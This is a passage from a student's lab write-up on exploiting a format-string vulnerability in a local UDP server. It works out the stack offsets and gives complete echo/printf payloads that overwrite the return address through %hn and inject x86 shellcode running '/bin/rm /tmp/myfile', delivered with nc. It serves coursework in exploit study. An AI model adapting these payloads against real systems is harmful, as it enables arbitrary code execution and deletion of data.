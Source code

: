 From the [task2](#Task2) above we know that the distance between msg address and buf address is `0x40`, RA address =  msg address - 4.

And from the [Task4B](#Task4B), I must put 23 `%.8x` first to reach my buf address, then we need a `%hn` to overwrite the high 16 bits of RA address, and a `%.?x` to reach the number we need, and a `%hn` to overwrite the low 16 bits of RA address. All in all we need `23+1+1+1=26` offset in the buf.

**Approximately** the beginning address of the malicious shellcode is `'msg address' + 0x40+26*4(offset)`.



#### Invading process

1. First using `echo $(printf "\x76\x26\xba\xbf....\x74\x26\xba\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > inputbefore`  and `nc -u localhost 9090 < inputbefore` to check the address of msg.

   ![image-20201009095315212](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201009095315212.png)

   Here we can see the address of msg is `0xbf8454f0`. So the address of RA is `0xbfe9898c`, the approximate address of the beginning address is `0xbfe98a44`, and I change the 23rd of `%.8x` to `%.48941x (48941 = 0xbfe9-22*8-12)`. 

   Because `0x8a44<0xbfe9`, we must use overflow technique in [Task5C](#Task5C), the result of `0x18a44-0xbfe9` is 5 digits decimal number.

   And `%.48941x` is in the buf, which is stored 4 more bytes than `%.8x`, and `%hn` is stored 1 less byte than `%.8x`, so the **exact** beginning address of malicious code (Starting with '\x31') is `'msg address' + 0x40+26*4(offset)+12+10=0xbfe98a4e`, however we just using `'msg address' + 0x40+26*4(offset)+12+8=0xbfe98a4c` in the task because there are 4 **NOP** in the beginning. 

   `0x18a4c-0xbfe9=51811`, so I change the 25th `%.8x` to `%.51811x`.

   And change 24th and 26th `%.8x` to `%hn`.

   ![image-20201009102929055](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201009102929055.png)

2. Here is the successful code and screenshots

   `echo $(printf "\x8e\x89\xe9\xbf....\x8c\x89\xe9\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.48941x%hn%.51811x%hn $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > inputafter`



![image-20201009093450790](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201009093450790.png)





![image-20201009094907047](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201009094907047.png)



